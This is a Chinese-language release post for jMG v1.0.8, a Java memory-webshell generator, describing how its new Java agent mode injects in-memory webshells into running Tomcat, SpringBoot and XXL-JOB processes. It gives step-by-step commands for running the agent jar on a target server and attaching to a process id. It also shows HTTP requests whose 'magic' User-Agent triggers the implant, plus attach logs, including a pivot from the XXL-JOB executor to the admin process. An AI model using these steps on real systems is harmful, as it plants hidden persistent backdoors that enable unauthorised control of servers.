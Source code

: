 ```yaml
---
title: jMG v1.0.8 - Java Agent 篇
author: pen4uin
date: 2024-04-12
---
```


# jMG v1.0.8 - Java Agent 篇

鸽了半年的功能 —— 跨 JVM 进程注入内存马。

https://github.com/pen4uin/java-memshell-generator/issues/4

## 0x01 简介

新增对 Tomcat 和 SpringBoot(SpringMVC) Agent 注入内存马的支持，并分别在 Tomcat 8 + JDK 8、SpringBoot 2 + JRE 8、XXL-JOB 2.1.0 完成测试。

## 0x02 功能测试

### Tomcat 8 + JDK 8

0、测试环境

- Tomcat 8.5
- JDK 8

1、选择 Tomcat + JAR_AGENT

![](./img/1713209159695.png)

2、将 agent 传到目标服务器上执行

```shell
# list pid
java -jar jmg-agent.jar
# attach pid
java -jar jmg-agent.jar [pid]
```

![](./img/1713209182608.png)

3、注入内存马

- 携带 User-Agent: magic 触发内存马注入逻辑

```http
GET / HTTP/1.1
Host: 127.0.0.1:9090
User-Agent: Mozilla/5.0 (Macintosh; magic Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

4、按照基础信息进行连接

![](./img/1713209211285.png)

### SpringBoot 2 + JRE 8

0、测试环境
- SpringBoot 2.5.3 + Embedded Jetty
- JRE 8

1、选择 SpringMVC + JAR_AGENT

![](./img/1713209265218.png)

2、将生成的 agent 传到目标服务器上执行

纯 jre 环境无 tools.jar，jmg-agent 会自动释放内置 tools.jar 到临时目录

![](./img/1713209278067.png)

3、注入内存马

- 携带 User-Agent: magic 触发内存马注入逻辑

```http
GET / HTTP/1.1
Host: 127.0.0.1:9090
User-Agent: Mozilla/5.0 (Macintosh; magic Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

4、按照基础信息进行连接

![](./img/1713209302039.png)

### XXL-JOB (executor -> admin)

0、测试环境

- XXL-JOB 2.1.0
- JDK 8
- Executor 与 Admin 在同一台服务器上

1、选择Tomcat + JAR_AGENT

![](./img/1713209319058.png)

2、将 agent 写到目标服务器上执行

(1) 新增任务列 pid

![](./img/1713209337767.png)

(2) 调度日志看结果

```text
[*] Found pid 76495 ——> [com.xxl.job.admin.XxlJobAdminApplication]
[*] Found pid 76592 ——> [com.xxl.job.executor.XxlJobExecutorApplication]
```

(3) 选择 admin pid 进行 attach

![](./img/1713209372043.png)

(4) attach 成功

![](./img/1713209382797.png)

3、注入内存马

- 携带 User-Agent: magic 触发内存马注入逻辑

```http
GET /xxl-job-admin/toLogin HTTP/1.1
Host: 127.0.0.1:9090
User-Agent: Mozilla/5.0 (Macintosh; magic Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

4、按照基础信息进行连接

![](./img/1713209425091.png)

## 0x03 小结

测试环境属于较理想环境，实战可能会遇到各种坑点，若有问题反馈与讨论请附上环境信息+报错日志。

